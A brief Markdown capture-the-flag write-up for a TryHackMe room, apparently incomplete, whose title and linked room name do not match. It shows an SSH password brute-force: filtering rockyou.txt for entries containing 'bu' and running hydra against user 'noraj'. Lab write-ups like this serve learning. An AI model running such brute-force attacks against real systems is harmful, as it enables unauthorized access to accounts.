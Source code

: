 ```yaml
---
layout: post
title: Red Stone One Carat - TryHackMe Room
---
```


Room: [Startup](https://tryhackme.com/room/startup)

# Enumeration <nmap>
- Start by enumerating the box

# Port 22 open
- use "noraj" to bruteforce the box

```bash

# since the hint tells us that the password contains 'bu'
awk '/bu/' rockyou.txt > wordlist.txt

hydra -l noraj -P wordlist.txt ssh://IP -V -F -t 4

```

